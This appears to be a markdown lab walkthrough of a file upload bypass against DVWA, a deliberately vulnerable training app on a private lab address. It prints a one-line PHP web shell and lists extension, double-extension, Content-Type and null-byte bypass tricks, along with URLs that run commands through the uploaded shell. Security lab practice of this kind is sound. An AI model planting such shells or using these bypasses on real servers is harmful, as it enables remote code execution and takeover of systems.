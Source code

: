 # File Upload Bypass

## 🎯 Objective  
Attempt to upload a malicious file by bypassing client-side or server-side restrictions in a vulnerable file upload function.

---

## 📌 Target Info  
- **Target IP:** 192.168.56.105  
- **Service:** HTTP (Port 80)  
- **App Used:** DVWA (File Upload Module)  
- **Tools:** Web browser, Burp Suite (optional)

---

## 🧩 Steps

### 🔹 Step 1: Access the File Upload Page  
Navigate to:  
```
http://192.168.56.105/dvwa/vulnerabilities/upload/
```
Use **low security** level.

---

### 🔹 Step 2: Attempt Basic File Upload  
Try uploading a basic `.php` file with a payload:  
```php
<?php system($_GET['cmd']); ?>
```
If rejected, proceed to bypass methods.

---

### 🔹 Step 3: Bypass Filter Techniques
Change extension: Try .php5, .phtml, .phar

Use double extensions: shell.php.jpg
Tamper headers: Modify Content-Type in Burp Suite
Null byte injection: Try shell.php%00.jpg (if supported)

### 🔹 Step 4 Locate Uploaded File
Check uploads/ directory:
```
http://192.168.56.105/dvwa/hackable/uploads/shell.php
```
Test remote command execution:
```
http://192.168.56.105/dvwa/hackable/uploads/shell.php?cmd=whoami
```

---

✅ Conclusion
```
If the application accepts and executes the uploaded .php file, it is vulnerable to remote code execution through file upload bypass.
```
